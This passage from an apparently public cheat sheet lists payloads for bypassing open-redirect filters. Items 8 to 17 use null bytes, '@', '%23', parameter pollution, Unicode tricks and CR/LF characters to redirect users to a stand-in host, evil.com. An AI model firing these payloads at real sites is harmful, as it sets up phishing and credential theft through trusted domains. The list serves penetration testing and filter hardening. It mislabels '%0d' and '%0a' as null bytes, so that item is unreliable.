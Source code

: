 8. Using null byte `%00` to bypass blacklist filter
```
/?redir=//evil%00.com
```

9. Using parameter pollution
```
/?next=target.com&next=evil.com
```

10. Using `@` or `%40` character, browser will redirect to anything after the `@`
```
/?redir=target.com@evil.com
/?redir=target.com%40evil.com
```

11. Creating folder as their domain
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

12.  Using `?` characted, browser will translate it to `/?`
```
/?redir=target.com?evil.com
```

13. Bypass the filter if it only checks for domain name using `%23`
```
/?redir=target.com%23evil.com
```

14.  Host/Split Unicode Normalization
```
https://evil.c℀.example.com
```

15. Using parsing
```
http://ⓔⓥⓘⓛ.ⓒⓞⓜ
```

16. Using `°` symbol to bypass
```
/?redir=target.com/°evil.com
```

17. Bypass the filter if it only allows yoou to control the path using a nullbyte `%0d` or `%0a`
```
/?redir=/%0d/evil.com
```

